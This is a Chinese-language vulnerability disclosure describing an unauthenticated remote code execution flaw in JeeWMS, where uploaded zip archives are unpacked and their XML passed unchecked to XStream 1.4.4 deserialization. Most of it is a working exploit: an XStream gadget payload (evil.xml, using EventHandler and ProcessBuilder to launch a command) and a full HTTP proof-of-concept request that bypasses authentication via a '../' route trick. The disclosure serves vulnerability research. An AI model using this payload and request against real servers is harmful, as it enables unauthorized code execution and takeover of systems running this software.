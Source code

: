 **漏洞描述**：`JeeWMS`中`cgformSqlController.do`路由存在`XStream`反序列化漏洞，可以远程执行任意代码，配合前台未授权，可以实现前台任意代码执行的效果。

**漏洞所在类**：`org/jeecgframework/web/cgform/controller/build/CgformSqlController.java`

**漏洞所在方法**：`org.jeecgframework.web.cgform.controller.build.CgformSqlController#**doMigrateIn`



方法中先对上传的`zip`压缩包进行解压缩，并将解压出的`XML`文件，未经任何安全校验，直接进行`XStream`反序列化

![image-20250724115152772](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724115152772.png?imageSlim)

默认`XStream`依赖版本为`1.4.4`

![image-20250724115614596](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724115614596.png?imageSlim)

`evil.xml`

```XML
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

漏洞`POC`

```http
POST /jeewms/wmsApiController.do/../cgformSqlController.do?doMigrateIn HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: [xxx]

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="evil.zip"
Content-Type: application/zip

{{file(C:\\Users\\worker\\Desktop\\java\\evil.zip)}}

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

![img](https://img-1325537595.cos.ap-beijing.myqcloud.com/%E4%BC%81%E4%B8%9A%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_1753327815533.png?imageSlim)